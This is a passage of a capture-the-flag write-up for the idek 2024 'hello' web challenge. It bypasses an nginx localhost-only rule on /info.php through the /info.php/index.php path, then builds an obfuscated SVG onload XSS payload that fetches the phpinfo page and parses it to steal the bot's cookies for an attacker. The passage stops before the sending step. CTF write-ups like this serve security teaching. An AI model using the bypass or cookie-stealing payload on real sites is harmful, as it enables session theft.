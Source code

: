 ```
location = /info.php {
    allow 127.0.0.1;
    deny all;
}   
```

Hmm... so we can't access it directly from the outside world. A quick Google search for nginx bypasses led me to the fact that accessing `/info.php/index.php` returns the same info as info `/info.php`. Let's try it going to `http://idek-hello.chal.idek.team:1337/info.php/index.php`:

![php_info](/assets/img/idek2024/php_info.png)

Nice! This page contains the cookies of the user who visits it, which leads us to the complete exploit (all of the actions are from the POV of the bot):
1. Send a request to `http://idek-hello.chal.idek.team:1337/info.php/index.php`
2. Parse the cookies from the page
3. Send them to the attacker
Now let's construct the payload. We start from step 1:

```js
<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php")>
```

The `fetch()` call returns us a promise with the Response of the `/info.php/index.php` page. Let's start by getting the text:

```js
.then(function(response){response.text()
```

Cool. The `text()` function returns a promise with the text of the page as a string. Let's split the text into lines:

```js
.then(function(txt){txt.split(`\n`)
```

For each line, we want to send it to the attacker if it contains the flag. We'll accomplish this by calling `forEach` on the lines:
